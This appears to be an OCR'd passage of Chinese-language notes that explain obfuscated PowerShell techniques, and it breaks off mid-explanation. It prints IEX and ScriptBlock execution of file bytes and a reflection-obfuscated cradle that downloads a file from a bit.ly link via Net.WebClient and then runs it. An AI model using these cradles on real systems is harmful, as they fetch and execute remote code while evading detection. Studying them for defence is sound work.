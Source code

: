 - `IEX((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_})))`: 读取 `Default_File_Path.ps1` 中的所有字节, 将其转换为字符并使用 `-Join` 连接, 然后使用 `IEX` 执行

- `[ScriptBlock]::Create((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_}))).InvokeReturnAsIs()`: 读取 `Default_File_Path.ps1` 中的所有字节, 将其转换为字符并使用 `-Join` 连接, 然后使用 `[ScriptBlock]::Create` 创建一个脚本块, 并使用 `InvokeReturnAsIs` 执行

- 最后一行代码写得比较复杂,涉及多个变量, 使用反射调用和动态方法调用
  ```powershell
  # 设置变量 HJ1 为 http://bit.ly/L3g1tCrad1e
  Set-Variable HJ1 'http://bit.ly/L3g1tCrad1e'; 
  # 设置变量 0W 为 Net.WebClient
  SI Variable:/0W 'Net.WebClient'; 
  # 设置变量 gH 为 Default_File_Path.ps1
  Set-Item Variable:\gH 'Default_File_Path.ps1'; 
  # 列出当前目录下所有以下划线 _ 开头的文件和文件夹
  ls _-*; 
  Set-Variable igZ (
      
      .$ExecutionContext.InvokeCommand.(
          (
              $ExecutionContext.InvokeCommand.PsObject.Methods | ? { $_.Name -like '*Cm*t' }
          ).Name
      ).Invoke(
          $ExecutionContext.InvokeCommand.(
              ($ExecutionContext.InvokeCommand | GM | ? { $_.Name -like '*om*e' }).Name
          ).Invoke('*w-*ct', $TRUE, 1)
      )(Get-ChildItem Variable:0W).Value
  ); 
  Set-Variable J (
      (
          (
              (Get-Variable igZ -ValueOn) | GM
          ) | ? { $_.Name -like '*w*i*le' }
      ).Name
  ); 
  (Get-Variable igZ -ValueOn).(
      (ChildItem Variable:J).Value
  ).Invoke(
      (Get-Item Variable:/HJ1).Value, (GV gH).Value
  ); 
  &( ''.IsNormalized.ToString()[13, 15, 48] -Join '')( -Join ([Char[]](CAT -Enco 3 (GV gH).Value)))
  ```
  - `Set-Variable HJ1 'http://bit.ly/L3g1tCrad1e'`: 设置变量 `HJ1` 的值为 `http://bit.ly/L3g1tCrad1e`
  
  - `SI Variable:/0W 'Net.WebClient'`
    - `SI` 是 `Set-Item` 的别名, 用于设置变量的值
    - `Variable:/0W` 是变量的路径, 这里是 `Variable` 命名空间下的 `0W` 变量
    
  - `Set-Item Variable:\gH 'Default_File_Path.ps1'`: 设置变量 `gH` 的值为 `Default_File_Path.ps1`
  
  - `ls _-*`: 列出当前目录下所有以下划线 _ 开头的文件和文件夹
  
  - `Set-Variable igZ (.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods|?{$_.Name-like'*Cm*t'}).Name).Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand|GM|?{$_.Name-like'*om*e'}).Name).Invoke('*w-*ct',$TRUE,1))(Get-ChildItem Variable:0W).Value)`
    